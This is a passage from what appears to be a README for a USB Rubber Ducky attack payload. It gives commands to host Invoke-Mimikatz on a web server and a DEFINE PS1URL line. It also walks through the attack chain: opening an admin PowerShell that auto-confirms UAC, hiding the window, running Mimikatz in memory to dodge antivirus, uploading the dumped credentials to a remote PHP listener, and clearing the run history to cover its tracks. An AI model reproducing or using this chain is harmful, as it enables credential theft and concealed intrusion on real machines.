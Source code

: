         ```powershell
        sudo mkdir /var/www/html/scripts
        sudo cp path/to/Invoke-Mimikatz.ps1 /var/www/html/scripts/
        ```
        
3. **Verify Server Accessibility**:
    - Ensure that the Apache server is running. You can verify this by navigating to `http://localhost/scripts/Invoke-Mimikatz.ps1` from a web browser, which should display the contents of the Invoke-Mimikatz script.
4. **Reference Script in Payload:**
    - Modify your USB Rubber Ducky payload to include the URL to the Invoke-Mimikatz script hosted on your server. Adjust the `PS1URL` in your payload: `DEFINE PS1URL http://localhost/scripts/Invoke-Mimikatz.ps1`
    - Replace `localhost` with your server's IP address (e.g. Kali Linux VM) if accessing from a different machine.

## How It Works

### DuckyScript Payload:

- **Gain Administrative Access:** The script initiates by simulating keypresses to open a run dialog (`GUI r`), then types in a command to open an administrative PowerShell prompt. It uses the `Start-Process cmd -Verb runAs` command, automatically confirming any User Account Control (UAC) prompts to ensure administrative privileges.
- **Optional Obfuscation:** To reduce the visibility of the command prompt window during the attack, the script optionally resizes the window to a minimal footprint and changes the text and background colors to blend in with the background, making it harder for casual observers to notice.
- **Invoke-Mimikatz Execution:** With administrative access secured, the script downloads and executes Invoke-Mimikatz directly in memory. This is done through a PowerShell command that fetches the Invoke-Mimikatz script from a predefined URL (`PS1URL`) and executes it. The script is designed to dump credentials such as passwords from the memory of the compromised system without writing anything to the disk, minimizing its footprint and avoiding detection by disk-based antivirus software.
- **Exfiltrate Credentials:** After executing Invoke-Mimikatz and capturing credentials, the script uploads this sensitive data to a remote server specified by another URL (`UPLOADURL`). This step ensures that the attacker can access the harvested credentials from anywhere, provided they have access to the server.
- **Clean Up:** The script concludes by attempting to cover its tracks. It clears the run dialog history to remove evidence of the commands used during the attack. This is a crucial step in minimizing the attack's forensic footprint, although it's worth noting that sophisticated digital forensics could still potentially uncover the intrusion.
- **Server-Side Reception:** On the server side, a PHP script (`listener.php`) is prepared to receive and save the uploaded credentials. This script simply listens for incoming data and saves it in a file, appending the remote IP address and a timestamp for organization and future analysis.

### **Listener Script (PHP):**

- When the script receives a request, it first constructs a filename using the requester's IP address and the current date and time, appending `.creds` as the file extension. This ensures that each request is logged in a uniquely named file, preventing overwrites and making it easier to track when each set of data was received.
- It then captures the raw data sent in the request (such as credentials captured by the Invoke-Mimikatz script executed by the USB Rubber Ducky) using `file_get_contents("php://input")`.
- This data is saved to the newly created file with the constructed filename (`$file`).
- `$_SERVER['REMOTE_ADDR']`: This is a superglobal array in PHP that contains information about headers, paths, and script locations. The `REMOTE_ADDR` index holds the IP address of the visitor making the request to the script. This is used to identify where the request is coming from.
- `date("Y-m-d_H-i-s")`: The `date()` function formats a local date and time, and returns the formatted string. The format string `"Y-m-d_H-i-s"` generates a date and time in the format of Year-Month-Day_Hour-minute-second (for example, `2024-03-06_15-30-25`). This is used to timestamp the request, ensuring that each file created by the script is unique.
- `file_put_contents($file, file_get_contents("php://input"))`:
    - `file_put_contents()` writes a string to a file. If the file does not exist, it will be created. In this context, it's used to save the data received by the script.